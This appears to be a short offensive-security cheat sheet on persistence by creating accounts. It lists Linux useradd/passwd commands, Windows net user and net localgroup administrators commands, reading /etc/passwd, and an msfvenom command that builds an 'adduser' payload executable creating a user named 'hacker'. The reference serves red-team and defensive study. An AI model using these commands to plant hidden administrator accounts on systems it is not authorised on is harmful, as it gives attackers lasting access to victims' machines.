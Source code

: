 Adversaries may create an account to maintain access to victim systems. With a sufficient level of access, creating such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.

**Linux**
- Create a user `sudo useradd <username>`
- Create a system user `sudo useradd -r username`
- Create a user with specific User ID `sudo useradd -u 1500 <username>`
- Create a user with a specific group ID `sudo useradd -g <users> <username>`
- Remove an account `sudo userdel <username>`
- Change password of an account `sudo passwd <username>`

- List users `cat /etc/passwd`  `cut -d: -f1 /etc/passwd`

**Windows**
- Create an account `net user /add <username> <password>`
- Add account to admin group `net localgroup administrators <username> /add`
- Remove an account `net user <username> /delete`
- Change password of an account `net user <username> <newpassword>`
- Create User

		 msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
